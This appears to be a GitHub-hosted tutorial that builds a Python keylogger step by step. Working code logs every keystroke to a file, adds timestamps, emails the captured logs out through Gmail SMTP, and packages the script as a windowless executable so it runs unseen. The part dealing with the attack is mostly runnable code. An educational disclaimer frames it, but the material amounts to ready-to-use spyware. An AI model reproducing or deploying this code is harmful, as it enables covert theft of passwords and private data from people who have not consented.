 # PythonKeylogger
---
Keylogging in Python
Table of Contents
- Introduction to keylogging
- Disclaimer
- Step-by-step installation
 0. Tools and Requirements
 1. Install dependencies
 2. Creating the keylogger
 3. Include timestamps
 4. Receiving logs via email
 5. Converting to exe
 6. Stopping the keylogger
- Troubleshooting
- Sources

---

Introduction to keylogging
Keylogging is the use of a computer program to record every keystroke made by a user. While it can be used for malicious purposes such as stealing passwords, it also has legitimate uses in cybersecurity, parental control, and employee monitoring. Keylogging is also used for parental monitoring through applications like Spyrix and for companies to track employee productivity or troubleshoot technical issues. However, keylogging can also be used maliciously to steal sensitive information such as usernames, company data, social security numbers, banking details, and passwords.

---

Disclaimer
This blog is intended for educational and ethical research purposes only. Unauthorized use of keyloggers to monitor, record, or collect data from individuals without explicit consent is illegal and may violate local, national, or international laws. The author does not encourage or condone any illegal activity and is not responsible for any misuse of the information provided. Always ensure you have proper authorization before using keylogging software.

---

Step-by-step Installation
0. Tools and Requirements
PyCharm Community Edition
Notepad or any text editor
Terminal in code editor
Test Google Account

For this blog we will be using PyCharm Community Edition to handle the creation of our code and the installation of our libraries. You may use any Source code editor that uses python as well. Then, a text file (keylog.txt) where the logged keystrokes will be saved. Finally, a spare or dummy google account that will be receiving the txt file of our key logs
The main focus of this tutorial is to guide you into creating your first keystroke program in python. Detailed information on the libraries or components used will be linked.

---

Install Dependencies

First, install the pynput library, which allows us to capture keystrokes. Run the following command in your terminal:
pip install pynput

---

2. Creating the Keylogger
Second, we import a pynput.keyboard listener that listens for keyboard events. then, through the function on_press(), each key and special key (shift, ctrl, enter, etc.) pressed will be written to the keylog.txt that has the variable log_file. This script continuously logs keystrokes until it is manually stopped by the user.
# Adapted from Satyam Pathania's MIT Licensed keylogger
# Original source: https://github.com/Satyampathania/python-keylogger

from pynput.keyboard import Listener

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

with Listener(on_press=on_press) as listener:
    listener.join()
Result:
and there you have it, your very own keylogger! But, we can also add a few more tweaks to make our keylogger more practical and useful.

---

3. Include Timestamps
We can also include timestamps by modifying the on_press() function to include date and time to be written to the keys
import datetime

def on_press(key):
    with open(log_file, "a") as f:
        f.write(f"{datetime.datetime.now()} - {key}\n")
Result:

---

4. Receiving logs via email
Through the use of smtplib we can send our logs to our email account. In this case, we will be using a test or dummy Gmail account. input your email and password on the corresponding email and password variables. The Smtplib server will then start, login to your account, send mail to your email of the logs then close the server. For your password it is important to create an app password and use that instead as you may obtain an error due to google not allowing less secure apps such as raw SMTP to access Gmail with your normal password due to security risks. Be aware that Gmail may detect and block emails containing key logs, as it can be considered a security risk. Head to troubleshooting for the guide on creating your app password
import smtplib
import os

EMAIL = "your_email@gmail.com"
PASSWORD = "your_password"

def send_email():
    with open(log_file, "r") as f:
        logs = f.read()

    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(EMAIL, PASSWORD)
    server.sendmail(EMAIL, EMAIL, logs)
    server.quit()

send_email()
Result:

---

5. Converting to exe
You can run your script on a system without Python installed by converting it into an executable (.exe). In terminal run the following:
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
this will then generate an executable file in dist/keylogger.exe, be sure to place keylog.txt file alongside the keylogger.exe to avoid an error such as this:

---

6. Stopping the keylogger
In order to stop your keylogger from recording your input. In python, stop the program in your ide, meanwhile, in exe, find the process in task manager and closing it manually there.
Congratulations! you have successfully created your first keylogger program. Remember to only use this ethically and with consent in order to avoid any repercussions that may fall on you. If there are any questions or issues please refer to the troubleshooting guide or comment below.

---

Troubleshooting
Unable to login to Gmail account with error:
File "C:\Users\XXX\AppData\Local\Programs\Python\Python312\Lib\smtplib.py", line 662, in auth
    raise SMTPAuthenticationError(code, resp)
smtplib.SMTPAuthenticationError: (534, b'5.7.9 Application-specific password required. For more information, go to\n5.7.9  https://support.google.com/mail/?p=InvalidSecondFactor d9443c01a7336-227811bdca7sm120987905ad.137 - gsmtp')
Go to "Manage your Google Account"
Under security go to 2-step verification 
Set up a phone number or use an authenticator etc.
Go to "App Passwords" in security
Create a name for the app (e.g. Keylogger, keylogger system, etc.)
Copy the given 16 character password
Replace the password in your code to the app password

---

Sources:
Basic Keylogger Code:
Adapted from Satyam Pathania's work under the MIT License. This blog follows the license terms by including proper attribution.
https://github.com/Satyampathania/python-keylogger
© 2024 Satyam Pathania
Modifications © 2025 ChaseJace
This project is licensed under the MIT License, which allows modification and redistribution with proper credit.
Information and library sources:
https://www.fortinet.com/resources/cyberglossary/what-is-keyloggers
https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/keylogger/#:~:text=Companies%20often%20use%20keylogger%20software,troubleshoot%20issues%20on%20a%20device.
https://www.fortinet.com/resources/cyberglossary/how-to-detect-keylogger-on-phone
https://pypi.org/project/pynput/
https://docs.python.org/3/library/smtplib.html
